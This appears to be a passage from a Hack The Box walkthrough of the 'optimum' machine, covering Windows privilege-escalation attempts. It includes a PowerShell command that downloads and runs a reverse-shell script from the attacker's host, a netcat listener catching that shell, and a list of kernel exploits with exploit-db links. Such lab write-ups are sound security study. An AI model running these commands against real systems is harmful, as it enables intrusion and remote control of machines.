       C:\tmp> //10.10.14.8/pub-share/ms15-051x64.exe "whoami"
        --- no response ---


    MS16-032:
      C:\tmp> //10.10.14.8/pub-share/ms16-032.exe
      Gathering thread handles
      Done, got 3 handles
      System Token: 0000000000000158
      Couldn't open process token 5

      The .exe doesn't work, so lets try the .ps1:
      C:\tmp> powershell.exe IEX(New-Object Net.Webclient).downloadString('http://10.10.14.8/ps-rev.ps1')

      [root:/srv/pub-share]# python3 -m http.server 80
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
        10.10.10.8 - - [02/Mar/2021 12:46:07] "GET /ps-rev.ps1 HTTP/1.1" 200 -

      [root:/git/htb/optimum]# rlwrap nc -lvnp 4488                                                                                     (master✱)
        listening on [any] 4488 ...
        connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49259
        PS C:\Users\kostas\Desktop> whoami
          optimum\kostas



    ms15-051 - nope
    ms15-076 - nope
    ms15-078 - not checked
    ms16-032 - nope
    ms16-034 - not checked


3. The exploits found by Watson doesn't seem to give anything, so lets go back one step and try windows-expoit-suggester instead.

    [root:/srv/pub-share]# python /opt/windows-exploit-suggester.py --update
      [*] initiating winsploit version 3.3...
      [+] writing to file 2021-03-02-mssb.xls
      [*] done

    [root:/git/htb/optimum]# python /opt/windows-exploit-suggester.py --database 2021-03-02-mssb.xls --systeminfo systeminfo.txt      (master✱)
      [*] initiating winsploit version 3.3...
      [*] database file detected as xls or xlsx based on extension
      [*] attempting to read from the systeminfo input file
      [+] systeminfo input file read successfully (utf-8)
      [*] querying database file for potential vulnerabilities
      [*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
      [*] there are now 246 remaining vulns
      [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
      [+] windows version identified as 'Windows 2012 R2 64-bit'
      [*]
      [E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
      [*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
      [*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
      [*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
      [*]
      [E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
      [*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
      [*]
      [M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
      [*]   https://github.com/foxglovesec/RottenPotato
      [*]   https://github.com/Kevin-Robertson/Tater